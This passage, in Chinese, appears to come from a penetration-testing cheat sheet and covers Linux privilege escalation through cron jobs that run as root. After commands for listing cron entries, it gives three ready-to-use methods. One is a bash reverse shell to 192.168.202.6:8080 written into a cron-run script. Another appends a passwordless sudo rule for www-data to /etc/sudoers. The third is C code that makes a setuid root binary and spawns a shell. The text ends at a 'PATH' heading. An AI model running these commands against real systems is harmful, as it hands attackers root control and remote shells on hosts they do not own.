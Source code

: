 ## Cron jobs

如果有一个使用 root 权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将使用 root 权限运行。

查看cron作业

```
cat /etc/crontab
```

管理员可能删除了脚本但是没有删除cron作业

```
ls /etc/spool/cron
```

若发现update自动运行

### 提权方式一

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.202.6/8080 0>&1\n' > /tmp/update
```

本地监听等待反弹shell

### 提权方式二

将用户权限写入/etc/sudoers

```
echo 'chmod +w /etc/sudoers && echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > /tmp/update
```

### 提权方式三

```c++
#include<unistd.h>
void main(void)
{
system("chown root:root /tmp/update");
system("chmod 4755 /tmp/update");
setuid(0);
setgid(0);
execl("/bin/sh","sh",NULL);
}
```







## PATH

寻找可写目录
